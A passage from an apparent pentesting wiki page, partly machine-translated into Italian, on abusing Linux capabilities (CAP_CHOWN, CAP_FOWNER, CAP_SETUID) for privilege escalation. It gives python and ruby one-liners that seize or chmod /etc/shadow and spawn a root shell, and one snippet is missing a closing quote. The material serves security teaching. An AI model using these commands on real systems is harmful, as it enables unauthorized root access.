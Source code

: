 **The code of this technique was copied from the laboratory of "Abusing DAC_OVERRIDE Capability" from** [**https://www.pentesteracademy.com**](https://www.pentesteracademy.com)

## CAP_CHOWN

**This means that it's possible to change the ownership of any file.**

**Example with binary**

Lets suppose the **`python`** binary has this capability, you can **cambiare** the **owner** of the **shadow** file, **cambiare la password di root**, and escalate privileges:
```bash
python -c 'import os;os.chown("/etc/shadow",1000,1000)'
```
O con il binario **`ruby`** che ha questa capacità:
```bash
ruby -e 'require "fileutils"; FileUtils.chown(1000, 1000, "/etc/shadow")'
```
## CAP_FOWNER

**Questo significa che è possibile modificare i permessi di qualsiasi file.**

**Esempio con binario**

Se python ha questa capacità, puoi modificare i permessi del file shadow, **cambiare la password di root** e ottenere privilegi elevati:
```bash
python -c 'import os;os.chmod("/etc/shadow",0666)
```
### CAP_SETUID

**Questo significa che è possibile impostare l'ID utente efficace del processo creato.**

**Esempio con binario**

Se python ha questa **capability**, puoi facilmente abusarne per elevare i privilegi a root:
```python
import os
os.setuid(0)
os.system("/bin/bash")
```
**Un altro modo:**
```python
import os
import prctl
#add the capability to the effective set
prctl.cap_effective.setuid = True
os.setuid(0)
os.system("/bin/bash")
```
## CAP_SETGID

**Questo significa che è possibile impostare l'ID di gruppo efficace del processo creato.**
